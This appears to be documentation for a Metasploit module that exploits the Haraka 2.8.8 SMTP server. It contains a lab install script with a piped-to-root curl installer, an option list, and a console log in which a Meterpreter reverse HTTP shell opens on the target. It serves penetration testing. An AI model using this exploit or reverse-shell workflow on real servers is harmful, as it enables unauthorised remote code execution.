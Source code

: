 ## Vulnerable Application

  Setup the vulnerable Haraka install by running this script on Ubuntu, Debian or similar:

  ```
  #install nodejs and npm
  curl -sL https://deb.nodesource.com/setup_7.x | sudo -E bash -
  sudo apt install nodejs

  #Haraka setup
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install npm
  npm install

  haraka -i haraka

  cat << EOF > haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  echo haraka.test >> haraka/config/host_list

  # Launch haraka as root
  sudo haraka -c haraka
  ```

## Options

### from_email

  String used in the SMTP MAILFROM command

### to_email

  String used in the SMTP MAILTO command

### lhost

  The address to serve the payload from

### rhost

  The address or hostname to target

### payload

  Any compatible Metasploit payload

## Example Run

  ```
msf > use exploit/linux/smtp/haraka
msf exploit(haraka) > set email_to root@haraka.test
email_to => root@haraka.test
msf exploit(haraka) > set payload linux/x64/meterpreter_reverse_http
payload => linux/x64/meterpreter_reverse_http
msf exploit(haraka) > run

[*] Started HTTP reverse handler on http://192.168.1.1:8080
[*] Exploiting...
[*] Using URL: http://192.168.1.1:8080/36CacHfIIBnBe3
[*] Sending mail to target server...
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Redirecting stageless connection from /UJgmNdAvcM7RkNeSiIMMwg_phj2ODD0I0sgpuoWRXMCMYpHwI0ydcMlb4vVjgylZF9yr-gOpQu9aOibLROCaSBoN0tLHJRGCK0B4ZKg1aQy8LPB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (192.168.1.1:8080 -> 192.168.1.2:42122) at 2017-05-10 22:41:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.2 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(haraka) >
  ```
